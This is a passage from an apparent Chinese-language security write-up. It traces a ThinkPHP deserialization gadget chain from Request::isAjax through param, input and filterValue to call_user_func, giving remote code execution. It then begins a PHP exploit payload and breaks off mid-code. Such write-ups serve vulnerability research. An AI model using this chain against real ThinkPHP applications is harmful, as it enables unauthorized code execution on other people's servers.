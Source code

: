 ```php
    }
```

在`Request`类中有一个`isAjax`方法,在`isAjax`方法中会对`$this->param()`进行调用且参数`$this->config['var_ajax']`可控

在`param`中将`$this->mergeParam`设置为`true`即可跳过干扰项,而由于`$name`为`$this->config['var_ajax']`,因此将`$this->config['var_ajax']`设置为`true`即可满足条件`true === $name`

在`file`中`$files = $this->file;`因此`$files`可控,将`$this->file`设置为空值即可绕过`!empty($files)`使得`param`中的`$file`为`null`

因此`is_array($file)`为`false`,`$data=$this->param`可控,进入到`$this->input()`,此时`$data`参数可控

在`input`中通过`$this->getFilter`获取`$filter`的值,而`$this->filter`可控,因此`$filter`可控

最终进入`filterValue`,利用`call_user_func`达到RCE的目的

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204281633688.png)

payload如下

```php
<?php

namespace think\process\pipes {

    use think\Process;

    class Windows
    {
        private $files;
        public $pipes;
        private $fileHandles;

        public function __construct(array $files)
        {
            $this->fileHandles = [];
            $this->pipes = [];
            $this->files = $files;
        }
    }
}


namespace think\model\concern {

    use think\Collection;
    use think\Exception;
    use think\Loader;
    use think\Model;
    use think\model\Collection as ModelCollection;
    use think\db\Query;
    use think\model\Relation;
    use think\model\relation\BelongsTo;
